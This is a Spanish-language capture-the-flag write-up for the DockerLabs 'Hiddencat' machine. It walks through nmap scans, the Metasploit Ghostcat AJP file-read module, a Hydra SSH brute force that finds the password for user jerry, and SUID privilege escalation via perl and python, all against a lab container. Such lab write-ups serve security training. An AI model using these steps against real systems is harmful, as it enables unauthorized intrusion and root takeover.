

[[Writeups]]
#Writeups #Easy #DockerLabs


Empezamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

Vemos que tenemos un ssh con dos servicios en los puertos 8080 y 8009, vamos a escanear mas profundamente:

```bash
❯ sudo nmap -p22,8009,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Vemos varios servicios, vemos la web del puerto 8080:



Un tomcat normal, hago una búsqueda de directorios con gobuster y tampoco encuentro nada.

Así que vamos a ver el servicio AJP, resulta que buscando en exploit db vemos que existe una CVE para este servicio que nos puede permitir leer archivos que no deberíamos, dejo el enlace para que podais conultarlo: [Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

También por el nombre ghostcat podemos saber que vamos bien encaminados ya que la maquina se llama hiddencat, tienen un parecido.
Abrimos metaesploit y usamos desde ahí esta vulnerabilidad:


```bash
❯ msfconsole
Metasploit tip: Writing a custom module? After editing your module, why not try 
the reload command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search ajp

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat                 2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   1  exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747  2023-10-26       excellent  Yes    F5 BIG-IP TMUI AJP Smuggling RCE
   2  exploit/linux/http/netgear_unauth_exec               2016-02-25       excellent  Yes    Netgear Devices Unauthenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/netgear_unauth_exec

[msf](Jobs:0 Agents:0) >> use 0
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    172.17.0.2        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> run
```

Aqui hemos buscado el servicio ajp y usamos el exploit file read inclusion, cuando le damos a run nos muestra este codigo:


Vemos un mensaje curioso: 

**Welcome to Tomcat, Jerry ;)**

¡Tenemos un usuario!

Con este mensaje lo primero que intente es un ataque de fuerza bruta al ssh con el usuario jerry y el rockyou a ver si me daba un caso positivo:

```bash
❯ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 14:45:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-27 14:45:48

```

Y justo, conseguimos las credenciales:

```ruby
	login: jerry   password: chocolate
```

vamos a conectarnos al ssh y enumerar permisos de este ususario:

```bash
❯ ssh jerry@172.17.0.2
jerry@172.17.0.2s password: 
jerry@3349dee43bec:~$ id
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry)
jerry@3349dee43bec:~$ sudo -l
-bash: sudo: command not found
jerry@3349dee43bec:~$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Despues de enumerar los permisos sudo sin éxito, enumero los suid y veo que tenemos suid de perl y python.

Intente primero con perl en un comando de [GTFOBINS](https://gtfobins.github.io/#) sin éxito:

```bash
jerry@3349dee43bec:~$ /usr/bin/perl -e 'exec "/bin/sh";'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_ADDRESS = "es_ES.UTF-8",
	LC_NAME = "es_ES.UTF-8",
	LC_MONETARY = "es_ES.UTF-8",
	LC_PAPER = "es_ES.UTF-8",
	LC_IDENTIFICATION = "es_ES.UTF-8",
	LC_TELEPHONE = "es_ES.UTF-8",
	LC_MEASUREMENT = "es_ES.UTF-8",
	LC_TIME = "es_ES.UTF-8",
	LC_NUMERIC = "es_ES.UTF-8",
	LANG = "es_ES.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Insecure $ENV{PATH} while running setuid at -e line 1.
jerry@3349dee43bec:~$
```

Al darme este error de variables de entorno sin configurar intente antes usar el [SUID de python](https://gtfobins.github.io/gtfobins/python/#suid), a ver si no me daba problemas antes de profundizar mas en perl y me dio ya el acceso root:


Y obtenemos root con máximos privilegios.